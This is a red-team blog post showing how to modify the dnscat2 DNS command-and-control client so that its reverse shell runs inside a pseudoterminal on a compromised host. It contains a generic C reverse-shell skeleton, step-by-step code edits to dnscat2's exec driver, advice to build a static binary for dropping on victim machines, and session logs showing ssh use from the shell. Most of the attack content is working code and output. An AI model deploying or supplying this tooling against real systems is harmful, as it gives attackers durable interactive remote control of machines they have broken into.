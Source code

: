 ```yaml
---
layout: post
title: Beyond pty.spawn - use pseudoterminals in your reverse shells (DNScat2 example)
date: 2018-05-08 12:00:00
categories: posts
en: true
description: Quick article about how to improve well-known tools used in pentests. Forkpty() FTW!!
keywords: "forkpty, pseudoterminal, shell, backdoor, redteam, pentest"
authors:
    - X-C3LL
---
```



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Something that boils me since few years ago is the fashion of using "pty.spawn" and similar tricks to get a pseudoterminal. You does not always have python installed in the machine that you just compromised, so if you are going to drop a custom binary in that machine there is no reason to not to do the things "well". Without a pty, stuff like doing a ssh to other server, using sudo, vim, etc. is a pain in the ass. Of course there are tons of tricks to solve this issues, but it is far better if we can avoid to use external help. We can run a child process inside a pseudoterminal just editing few lines. In this post we are going to edit a well-known tool [DNSCat2](https://github.com/iagox86/dnscat2) in order to obtain a shell inside a pty.


## From fork() to forkpty()

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Almost every tool or code snippet used to obtain a reverse shell uses a similar skeleton that we can simplify to something like this:

```c
...
pid = fork();
if (pid == -1) {
	fprintf(stderr, "F*cked!\n");
}

if (pid == 0) { // Child process...
	//Magic is a socket, a pipe, whatever...
	dup2(magic, STDIN_FILENO);
	dup2(magic, STDOUT_FILENO);
	dup2(magic, STDERR_FILENO);
	execlp("/bin/sh", "pwned", NULL);
	exit(0);
}

//Daddy's code...
...
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We can use fork() to fork our process and call the /bin/sh binary, or we can call the cool __forkpty()__. Forkpty() is where all the magic lies:

```
DESCRIPTION
  The openpty() function finds an available pseudoterminal and returns file descriptors for the master and slave in amaster and aslave.  If name is not NULL, the filename of the slave is returned in name.  If termp is not NULL, the terminal parameters of the slave will be set to the values in termp.  If
  winp is not NULL, the window size of the slave will be set to the values in winp.

  The login_tty() function prepares for a login on the terminal fd (which may be a real terminal device, or the slave of a pseudoterminal as returned by openpty()) by creating a new session, making fd the controlling terminal for the calling process, setting fd to be  the  standard  input,  output,  and
  error streams of the current process, and closing fd.

  The  forkpty()  function  combines openpty(), fork(2), and login_tty() to create a new process operating in a pseudoterminal.  The file descriptor of the master side of the pseudoterminal is returned in amaster, and the filename of the slave in name if it is not NULL.  The termp and winp arguments, if
  not NULL, will determine the terminal attributes and window size of the slave side of the pseudoterminal.
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
So if we use forkpty(), when we do our execlp("/bin/sh"...) the shell process will be run inside a pseudoterminal. No more pty.spawn, expect, script, stty...

## Improving DNScat2
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
It is the moment to put our hands dirty. Download the code from github (https://github.com/iagox86/dnscat2/ ) and vim the file __client/drivers/driver_exe.c__.
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
First we are going to add the includes needed:

```c
...
#include <pty.h>
#include <termios.h>
...
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Search the line `driver->pid = fork();` and edit it to use forkpty() (the original code is commented):

```
/*driver->pid = fork();*/  
   int terminalfd; // We are going to read & write to our child through it

   driver->pid = forkpty(&terminalfd, NULL, NULL, NULL); 
   if(driver->pid == -1)
   {  
LOG_FATAL("exec: couldn't create process (%d)", errno);    
exit(1);
   }  

   /* If we're in the child process... */    
   if(driver->pid == 0)
   {  
/* Copy the pipes.
if(dup2(driver->pipe_stdin[PIPE_READ], STDIN_FILENO) == -1)
  nbdie("exec: couldn't duplicate STDIN handle");   

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDOUT_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDOUT handle");  

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDERR_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDERR handle");  

 Execute the new process.
  */  
execlp("/bin/sh", "sh", "-c", driver->process, (char*) NULL);   

/* If execlp returns, bad stuff happened. */   
LOG_FATAL("exec: execlp failed (%d)", errno);  
exit(1);
   }  
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We need to add our "terminalfd" to the "driver" structure:

```c
/* Add the sub-process's stdout as a socket. */      
   /*      
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
  */       
  
   struct termios terminal;  
   tcgetattr(terminalfd, &terminal);  // Get the attributes to change few of them
   terminal.c_lflag &= ~ECHO; 
   terminal.c_lflag &= ~ICANON;  
   tcsetattr(terminalfd, TCSANOW, &terminal);  // Set again the attributes
  
   driver->pipe_stdout[PIPE_READ] =  terminalfd; // Use it to read the output of our child  
   driver->pipe_stdin[PIPE_WRITE] = terminalfd; // Use it to write to the input of our child 
  
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Lastly we need to add the flags -static (if we want a static compilation just ready to work when it is dropped in a compromised machine) and -lutil to link the libraries needed.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
 `make`. Et voilà!

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When we try to ssh other server using the original version (just download from github and compile), we see the next error message:
```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> Pseudo-terminal will not be allocated because stdin is not a terminal.

sh (localhost.localdomain) 2> 
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
With our modified version, everything works like a charm:

```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh-4.2$
sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> harlock@localhost's password: FunkyPassword
sh (localhost.localdomain) 2>
Last login: Wed May  9 09:21:41 2018

[harlock@localhost]->~ ⌚ 13:58:48
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Nice :)!

## Final words

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We used DNSCat2 as example because it is a really cool project. You can extrapolate the modus operandi and use it in other projects.
As I always say, if you find any typo or wanna comment something, feel free to reach me at twitter [@TheXC3LL](https://twitter.com/TheXC3LL)
